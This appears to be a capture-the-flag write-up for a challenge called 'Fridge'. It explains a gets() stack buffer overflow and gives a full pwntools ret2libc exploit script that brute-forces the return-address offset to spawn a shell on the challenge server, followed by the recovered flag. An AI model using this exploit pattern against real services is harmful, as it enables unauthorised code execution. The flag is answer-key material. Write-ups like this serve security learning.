

## 0xFUN CTF 2026 - Fridge Write-up


### 1. Analysis & Vulnerability Identification

We start by analyzing the provided binary. The service mimics a smart fridge interface. By inspecting the function responsible for setting the welcome message (`set_welcome_message`), we identify a critical flaw: the usage of the `gets()` function.

`gets()` reads input into a stack buffer without checking the length. The buffer is defined as 32 bytes (`char buf[0x20]`), but we can input much more, allowing us to overwrite the Instruction Pointer (EIP) and hijack the control flow.

### 2. Exploitation Strategy (Ret2Libc)

Since we want to execute a shell, and the binary imports `system()`, we can use a **Ret2Libc** attack. We don't need shellcode; we just need to redirect execution to `system` with the argument `/bin/sh`.

However, there are two hurdles:

1. **Exact Offset:** The distance between the buffer and the return address isn't immediately clear due to compiler alignment.
2. **PLT Resolution:** The `system` function address might not be resolved in the GOT (Global Offset Table) until it is called for the first time.

### 3. Crafting the Exploit

To solve this, I wrote a script that:

1. **Warms up the GOT:** Selects option `1` ("List food") first. This forces the program to call `system("ls...")` legitimately, ensuring the address is resolved.
2. **Brute-forces the Offset:** Iterates through likely offsets (36, 40, 44, 48...) to overwrite the EIP.
3. **Payload Structure:** `Padding + system_addr + junk_ret_addr + bin_sh_addr`.

```python
from pwn import *

context.log_level = 'info'

def attempt_exploit(offset):
    try:
        # r = process('./vuln')
        r = remote('chall.0xfun.org', 47074)
        
        elf = ELF('./vuln', checksec=False)
        
        r.recvuntil(b'> ')
        r.sendline(b'1')
        r.recvuntil(b'Food currently in fridge:')
        
        r.recvuntil(b'> ')
        r.sendline(b'2')
        r.recvuntil(b'New welcome message (up to 32 chars):\n')
        
        system_addr = elf.plt['system']
        try:
            bin_sh_addr = next(elf.search(b'/bin/sh'))
        except StopIteration:
            bin_sh_addr = next(elf.search(b'sh\x00'))

        log.info(f"Testing Offset: {offset}")
        
        payload = b'A' * offset
        payload += p32(system_addr)
        payload += p32(0xdeadbeef) 
        payload += p32(bin_sh_addr)
        
        r.sendline(payload)
        
        r.sendline(b'echo PWNED')
        
        response = r.recvline(timeout=2)
        
        if b'PWNED' in response:
            log.success(f"!!! SHELL RECEIVED AT THE OFFICE {offset} !!!")
            r.interactive()
            return True
        else:
            r.close()
            return False
            
    except EOFError:
        r.close()
        return False
    except Exception as e:
        log.warning(f"Error: {e}")
        r.close()
        return False

for off in [36, 40, 44, 48, 52]:
    if attempt_exploit(off):
        break
else:
    log.error("error")

```

### 4. Execution & Flag



The script successfully identified the correct offset at **48 bytes**. The padding covered the 32-byte buffer plus 16 bytes of stack alignment/saved registers before hitting the return address.

**Flag:** `0xfun{4_ch1ll1ng_d1sc0v3ry!p1x3l_b3at_r3v3l4t1ons_c0d3x_b1n4ry_s0rcery_unl3@sh3d!}`
